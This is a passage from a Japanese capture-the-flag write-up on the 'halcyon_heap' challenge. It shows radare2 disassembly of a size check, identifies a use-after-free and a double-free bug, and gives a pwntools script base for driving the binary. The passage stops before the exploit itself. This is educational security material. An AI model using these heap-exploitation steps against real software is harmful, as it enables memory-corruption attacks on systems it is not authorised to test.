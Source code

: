 ```
|           0x00000b8d      8b45e4         mov eax, dword [size]
|           0x00000b90      83f878         cmp eax, 0x78               ; 'x'
|       ,=< 0x00000b93      7616           jbe 0xbab
|       |   0x00000b95      488d3d7b0400.  lea rdi, str.Deet_too_big   ; 0x1017 ; "Deet too big!"
|       |   0x00000b9c      e897fdffff     call sym.imp.puts           ; int puts(const char *s)
|       |   0x00000ba1      bfffffffff     mov edi, 0xffffffff         ; -1 ; int status
|       |   0x00000ba6      e8e5fdffff     call sym.imp.exit           ; void exit(int status)
```
> 与えた確保サイズが`120`以上であれば「Deet too big!」でプログラム終了。それ故、fastbinしか確保できません。

radare2で性的解析を続けたら、次の脆弱性を見つけました。

(1) 観測機能にUse After Freeがある。但し、目的の`index`が15以上なら「Invalid index!」で終了。
(2) 解除機能にDouble Freeがある。また、`index`が15以上だとプログラムが終了されます。

さて、エクスプロイト作成へ続ける前に、攻撃スクリプトのベースを用意しておきましょう。

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *
context.binary = "./halcyon_heap"
context.terminal = ["tmux", "split", "-h"]

e = ELF("./halcyon_heap")
libc = ELF("./libc.so.6")
p = e.process(env={"LD_PRELOAD" : libc.path})

counter = 0

def create_deet(size, value):
        global counter
        p.sendlineafter("> ", "1")
        p.sendlineafter("> ", str(size))
        p.sendlineafter("> ", value)
        counter += 1
        return counter - 1

def delete_deet(index):
        p.sendlineafter("> ", "3")
        p.sendlineafter("> ", str(index))

def observe_deet(index):
        p.sendlineafter("> ", "2")
        p.sendlineafter("> ", str(index))
        result = p.readuntil("Welcome to Halcyon Heap!")[:-24]
        print(hexdump(result))
        return result
```

# 攻撃作戦
